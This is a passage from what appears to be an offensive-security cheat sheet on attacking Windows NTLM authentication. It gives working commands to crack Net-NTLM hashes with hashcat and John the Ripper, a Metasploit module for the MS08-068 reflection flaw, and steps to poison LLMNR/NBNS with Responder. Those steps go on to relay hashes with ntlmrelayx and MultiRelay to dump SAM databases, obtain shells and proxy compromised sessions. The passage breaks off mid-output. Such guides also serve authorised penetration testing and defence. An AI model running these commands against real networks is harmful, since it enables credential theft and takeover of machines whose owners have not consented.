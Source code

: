 Crack the hashes with Hashcat / John The Ripper

```ps1
john --format=netntlmv2 hash.txt
hashcat -m 5600 -a 3 hash.txt
```


### Man-in-the-Middle attacks & relaying

NTLMv1 and NTLMv2 can be relayed to connect to another machine.

| Hash                 | Hashcat | Attack method       |
|---|---|---|
| LM                    | `3000`  | crack/pass the hash  |
| NTLM/NTHash           | `1000`  | crack/pass the hash  |
| NTLMv1/Net-NTLMv1     | `5500`  | crack/relay attack   |
| NTLMv2/Net-NTLMv2     | `5600`  | crack/relay attack   |

Crack the hash with `hashcat`.

```powershell
hashcat -m 5600 -a 0 hash.txt crackstation.txt
```

#### MS08-068 NTLM reflection

NTLM reflection vulnerability in the SMB protocolOnly targeting Windows 2000 to Windows Server 2008.

> This vulnerability allows an attacker to redirect an incoming SMB connection back to the machine it came from and then access the victim machine using the victim’s own credentials.

* https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS08-068

```powershell
msf > use exploit/windows/smb/smb_relay
msf exploit(smb_relay) > show targets
```

#### SMB Signing Disabled and IPv4

If a machine has `SMB signing`:`disabled`, it is possible to use Responder with Multirelay.py script to perform an `NTLMv2 hashes relay` and get a shell access on the machine. Also called **LLMNR/NBNS Poisoning**

1. Open the Responder.conf file and set the value of `SMB` and `HTTP` to `Off`.
    ```powershell
    [Responder Core]
    ; Servers to start
    ...
    SMB = Off     # Turn this off
    HTTP = Off    # Turn this off
    ```
2. Run `python  RunFinger.py -i IP_Range` to detect machine with `SMB signing`:`disabled`.
3. Run `python Responder.py -I <interface_card>` 
4. Use a relay tool such as `ntlmrelayx` or `MultiRelay`
    - `impacket-ntlmrelayx -tf targets.txt` to dump the SAM database of the targets in the list. 
    - `python MultiRelay.py -t <target_machine_IP> -u ALL`
5. ntlmrelayx can also act as a SOCK proxy with every compromised sessions.
    ```powershell
    $ impacket-ntlmrelayx -tf /tmp/targets.txt -socks -smb2support
    [*] Servers started, waiting for connections
    Type help for list of commands
    ntlmrelayx> socks
    Protocol  Target          Username                  Port
    --------  --------------  ------------------------  ----